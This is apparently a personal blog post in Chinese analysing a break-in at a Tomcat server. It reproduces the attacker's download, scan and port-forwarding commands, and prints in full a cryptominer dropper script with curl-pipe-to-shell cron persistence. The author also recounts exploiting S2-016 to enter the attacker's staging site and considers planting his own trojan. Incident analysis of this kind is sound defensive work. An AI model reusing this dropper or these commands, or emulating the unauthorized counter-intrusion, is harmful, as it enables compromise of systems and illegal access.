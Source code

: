 ```yaml
---
layout:   post
title:  "某服务器被入侵,追踪入侵者"
subtitle: "记录一次入侵分析的经历"
date:  2017-07-05 23:28:02 +0800
author: Les1ie
catlog: true
tags:
 - 网络安全
 - 入侵分析
---
```

## 0x01 
一个linux运维的群里面，今天突然有人说服务器被黑了，找人帮忙分析，日志被清除了，只留下了几条执行过的命令，他给出了个几个截图，都是他执行过的命令
![](/img/s2-016/first-ask.png)


## 0x02 
看了下他的截图， 攻击者最初是如何进入系统的已经无法知道了，说让他给我他公司服务器地址让我测试也没后文，所以对方如何进入服务器我也不得而知，他说服务器是tomcat的，觉得可能有apache的几个漏洞进去的，或者是账户被爆破，密钥泄露之类的

后来他给出了几个截屏，里面看到他在一个网站下载了一个工具包，目测是肉鸡，然后在里面拿出了扫描器, 然后扫了一波内网。
攻击者最初
```
$ wget http://98.142.135.215:8088/scan.tar.gz
```
攻击者下载了扫描的工具包，扫了一波内网，然后似乎是发现这个东西扫不动，编译了pscan2继续来，执行了
```
$ ./x 192.168
```
扫了整个内网
接着 
```
$ wget http://98.142.135.215:8088/portmap
```
![](/img/s2-016/subnet1.png)
这个时候是拿到了边缘主机的权限，下载工具准备搭建代理，准备内网继续攻击。
```
$ ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 98.142.135.215 -p2 6666
```
嗯，这个人其实最开始没有加`./portmap`, 也没有 `chmod +x portmap`, 直接执行了`portmap xxxxx` 哈哈哈哈

![](/img/s2-016/portmap.jpg)
现在代理搭建好了，22转发到了攻击者机器去了


后来他说在几台内网弱口令机器里面发现了攻击者下载的文件。我去肉鸡上把他下载下来了，上传到这里了，感兴趣的可以拿去分析一下。

[lssh.jpg](/img/s2-016/lssh.jpg)以及[xmr.tar.gz](/img/s2-016/xmr.tar.gz)

攻击者扫的内网看起来收获不小...拿到了好多台服务器，内网真是个危险的地方

后来他说他没意识到攻击者此时正在他的电脑上，然后攻击者在发现他结束了恶意进程之后便删去日志走了



## 0x03
其实写博客的时候才发现他给的截图里面很多信息我都没注意到

我看了下下载`lssh.jpg`和`xmr.tar.gz`的网站，注意到了网址是`xxx.xx.com/index.action`觉得很有可能是s2-045打进去的，网上找了很多exp都不行，打不进去，后来找同学要了另外的exp, 发现另外的漏洞， s2-016, cve编号cve-2013-2251，还是一个远程执行的漏洞，拿着这个直接打进去了，找了下网站的根目录，发现了前人的脚步，很多的传上来的文件还有jsp的一句话,这时候不想继续干下去了，因为怕事。。。另一个原因是...编程之美要提交项目了我还没干完...

另外发现网站的首页被挂了黑链
![](/img/s2-016/link.png)
..然后想了想，决定给管理员发邮件，网站被前人干成这样了都..

晚上突然想着不如扔给补天吧，这样我不用自己出面找管理员补洞了。

我自己在虚拟机里面下载了`xmr.tar.gz`, 看了下里面有这样的东西
![](/img/s2-016/xmr_file.png)

代码如下
```bash
cat lssh.jpg 
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
plt=`cat /proc/cpuinfo|grep aes`
ps x|grep stratum|grep -v grep|awk '{print $1}'|xargs kill -9 > /dev/null 2>&1
if [ `whoami` = "root" ]; then
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/crontabs/root
curl -O http://www.x.com/picture/lssh.jpg  > /dev/null 2>&1; mv lssh.jpg /etc/cron.daily/anacron ; chmod +x /etc/cron.daily/anacron||wget -O /etc/cron.daily/anacron http://www..jpg > /dev/null 2>&1 ; chmod +x /etc/cron.daily/anacron
else
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg | sh" |crontab -	
fi
DoYam()
{
	if [ ! -f "/var/tmp/xmr.tar.gz" ]; then
curl -fsSL  http://www.x.com/picture/xmr.tar.gz -o /var/tmp/xmr.tar.gz || wget  http://www.x.com/picture/xmr.tar.gz -O /var/tmp/xmr.tar.gz
    fi
	tar zxf /var/tmp/xmr.tar.gz -C /var/tmp/	
    chmod +x /var/tmp/xmr/*
	export LD_LIBRARY_PATH=/var/tmp/xmr
	cd /var/tmp/xmr
	if [ "$plt" != "" ]
     then 
     (exec ./httpd -c httpd.cnf &> /dev/null &)
     else
	 #no aes 
	 (exec ./apache -c httpd.cnf &> /dev/null &)
    echo no
    fi
}
#ps auxf|grep -v grep|grep "httpd.conf" || DoYam
ps x |grep httpd.cnf|grep -v grep || DoYam
```


发现我们 naive了..这个就是个挖矿的，检测是否支持aes是用来启动不同的挖矿程序，而不是...httpd和apache

他说内网的机器也被部署挖矿的了，新上线的主机也是弱口令..

有点想沿着挖矿的法国的控制机器再找一找，因为另一台肉鸡是国内的..说好了不打国内的网站...

其实有点想去那个肉鸡的xmr.tar.gz加一个我自己的木马进去，这样他的马儿跑起来了我就能找到这一次的入侵者了， 另外昨天没有去分析一下肉鸡的apache日志，看看那个人到底有多少打进去了的电脑..., 

2017年7月6日01:47:33

赶紧睡觉，明早有课，感觉药丸

## 0x04 
给了他一个exp, 然后..

2017年7月6日12:24:32
![](/img/s2-016/bugs.png)


嗯，就这样..



